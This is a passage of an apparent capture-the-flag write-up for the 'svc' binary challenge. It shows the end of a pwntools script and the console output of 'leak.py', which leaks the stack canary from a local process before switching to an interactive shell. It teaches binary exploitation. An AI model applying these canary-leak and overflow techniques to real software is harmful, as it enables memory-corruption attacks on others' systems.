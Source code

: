 ```
#drop to an interactive shell
target.interactive()
```

and when we run it:

```
$	python leak.py 
[+] Starting local process './svc': pid 5383
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>
-------------------------
[*]SCV IS ALWAYS HUNGRY.....
-------------------------
[*]GIVE HIM SOME FOOD.......
-------------------------
>>
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>
-------------------------
[*]REVIEW THE FOOD...........
-------------------------
[*]PLEASE TREAT HIM WELL.....


-------------------------

000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000

11
[*] The Stack Canary is: 0xb7c9c71e42c2ab00
[*] Switching to interactive mode
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>$  
```

